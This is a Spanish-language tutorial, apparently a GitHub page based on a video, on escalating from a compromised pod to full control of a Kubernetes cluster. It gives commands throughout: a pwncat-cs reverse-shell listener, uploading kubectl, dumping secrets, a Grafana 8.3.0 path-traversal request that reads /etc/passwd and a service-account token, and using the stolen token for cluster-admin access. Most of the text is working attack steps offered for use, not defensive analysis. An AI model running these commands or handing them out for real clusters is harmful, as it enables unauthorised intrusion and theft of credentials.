 # Atacar un cluster de Kubernetes: dedes un pod a todo el cluster


 Esta basado en el video : https://www.youtube.com/watch?v=iD_klswHJQs


## Enumeración 

Si hacemos una nmap a una IP que tiene una aplicación que está en un cluster:

```console
$ nmap -v <IP>

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http

```
Obtendremos los puertos 80/443 de la aplicación y probablemente el puerto 22.

## Establecimiento inicial

Suponer que hemos conseguido abrir un shell en el contenedor aprovechando una vulnerabilidad como inyección de OS o de SQL.

Para ello se puede usar netcat pero hay herramientas interesantes como `pwncat-cs`:
```console
$ sudo pip install pwncat-cs

$ pwncat-cs -lp <LPORT>
```

Una vez abierto el shell, probablemente seamos `root` aunque veremos que el conjunto de instrucciones de las que disponemos es bastante limitado dentro del contenedor.

¿Cómo se sabe que estás dendro de un contenedor?

Hay varios indicios:

- Probablemente en habrá un archivo `/.dockerenv`
- El comando `env` tendrá información de diversos compenentes :
   ```
   KUBERNETES_PORT_443_TCP_PROTO=
   KUBERNETES_PORT_443_TCP_ADDR=
   KUBERNETES_SERVICE_HOST=
   KUBERNETES_PORT=
   ...
   GRAFANA_...=
   SYRINGE_...=
   ```


## Instalar kubectl

`kubectl`es la herramienta que permite gestionar un cluster de Kubernetes. Por tanto, es imprescindible para poder ejecurtarlo en el pod comprometido.

Una opción es subirlo al pod desde la maquina atacante con un `upload`, hacerlo accesible con un servidor web, ...

```console
cd /tmp

pwncat$ upload ./kubectl

chmod +x ./kubectl

```

Una vez disponemos de `kubectl` podemos comenzar a lanzar comandos contra el cluster de kubernetes.

Lo primero que podemos hacer es ver qué podemos hacer en  el clúster. Para ello, el siguiente comando nos dará esa respuesta
```console

$ ./kubectl auth can-i --list 

...
secrets []     []       [get list]
   [/openapi]  []       [get]       
    [/version] []       [get]      
...
```

Lo más interesante es que `secrets` son accesibles:
```console

$ ./kubectl get secrets

default-token-xxxxx   kubernetes.io/service-account-token    3  24d
developer-token-yyy   kubernetes.io/service-account-token    3  24d
   
...
```
Para ver el contenido de un  `secrets` se puede usar:

```console
$ ./kubectl get secrets developer-token-yyy -o json

{
   data:{
      ...
   }
}
...
```

Probablemente no tengamos permisos para ver otros pods que estén en ejecución:

```console
$ ./kubectl get pods
Error from server (Forbidden): ...
```

```console
$ curl -vvv http://grafana:3000 


$ curl -L http://grafana:3000 

```
Como conocemos que puede haber otros servicios ejecutando en el clúster (ver los resultados del comando `env`) intentamos conectar a esos servicios conociendo la IP y el puerto:

```console
$ curl -vvv http://grafana:3000 


$ curl -L http://grafana:3000 

```

Y buscar versiones vulnerables en alguno de los servicios. Por ejemplo, Grafana 8.3.0 que es vulnerable a Directory Traversal y es posible leer cualquier archivo (https://www.exploit-db.com/exploits/50581).

```console
$ curl --path-as-is http://grafana:3000/public/plugings/logs/../../../../../../../../../../../../../../etc/passwd 


```

El objetivo es obtener más `secrets`. Si buscamos en el pod comprometido vemos dónde pueden estar estos `secrets`, concretamente el token de acceso (JWT):

```console
$ cd /var/run/secrets/kubernetes.io/serviceaccount
$ ls
ca.crt   namespace   token
$ cat token
ey .....Xw
```
Por tanto, buscamos en el pod grafana el token de acceso:
```console
$ curl --path-as-is http://grafana:3000/public/plugings/logs/../../../../../../../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token 

ey...rQ

$ export TOKEN = 'ey...rQ'
```
A continuación, usamos ese token para acceder a ver qué permisos tenemos con él:
```console

$ ./kubectl auth can-i --list --token=$TOKEN

*.*   []     [*]       []
...
```

Prácticamente, ya somos administradores del cluster, pues ya es posible hacer casi cualquier cosa.
```console

$ ./kubectl get pods --token=$TOKEN

grafana-123445566-xxxx    1/1      Running       2      24d
...
```


















